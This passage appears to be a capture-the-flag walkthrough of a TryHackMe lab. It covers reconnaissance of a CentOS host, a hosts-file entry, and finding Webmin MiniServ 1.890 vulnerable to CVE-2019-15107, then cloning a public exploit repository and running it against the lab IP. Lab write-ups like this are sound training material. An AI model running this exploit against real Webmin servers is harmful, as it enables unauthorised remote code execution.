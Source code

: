 Based on the headers of the webserver, we can deduce that centos is the OS on the machine.\
\
Attempting to access the web page via IP address does not work. DNS is not configured. We can see the domain in the port scan\
\
(https://thomaswreath.thm)\
\
We add this to our /etc/hosts file

```bash
10.200.84.200	thomaswreath.thm
```

Looking at port 10000, we see that it is running **MiniServ 1.890 (Webmin httpd)**


Google search reveals there is a RCE exploit for this: **CVE-2019-15107**


We can use the exploit found here:
https://github.com/MuirlandOracle/CVE-2019-15107


Clone the repo and then install the required python libraries
```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107

pip3 install -r requirements.txt
```

The script can now be run:
```bash 
python3 CVE-2019-15107.py -p 10000 10.200.84.200
```
